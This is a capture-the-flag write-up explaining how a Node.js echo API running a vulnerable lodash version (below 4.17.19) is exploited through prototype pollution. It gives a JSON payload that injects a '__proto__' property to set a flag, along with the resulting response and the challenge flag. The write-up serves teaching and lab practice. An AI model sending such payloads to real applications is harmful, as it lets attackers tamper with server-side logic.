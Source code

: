 
# Invisible-Ink

Expose hidden vulnerabilities in the web application.

## Objective 

The objective of this CTF is to explore the **Prototype Pollution vulnerability** that exists in the versions **below 4.17.19** of **lodash**. 

## Exploring the challenge

In this challenge we were provided with two files, a *package.json* and a *index.js*. It's a pretty simple project.
At first sight, the *index.js* file already contains something that can give us a hint of what we need to do, in this case, try to manipulate a runtime variable. We can tell that because at the line 27 we have a check on a object initialized at the line 9, but with the used key never set.

By looking at the *package.json*, if you already have seen the lodash vulnerability before, you can easily tell that the version choosed for this project was below the version with the patch, so now we can look up on ways to explore this vulnerability.

## Solution

The solution is pretty simple. As explained [here](https://motion-software.com/blog/prototype-pollution-in-lodash), we can pass a value in the json called *"_proto_"* and create or manipulate variables inside this object. So I came up this simple payload for the echo API.
```json
{
    "message": "ping", 
    "__proto__": {
        "flag": true
    }
}
```

By sending that, you'll get the flag in the response.
```json
{
	"userID": "...",
	"time": "...",
	"message": "ping",
	"flag": "SNYK{THE FLAG HERO}"
}
```
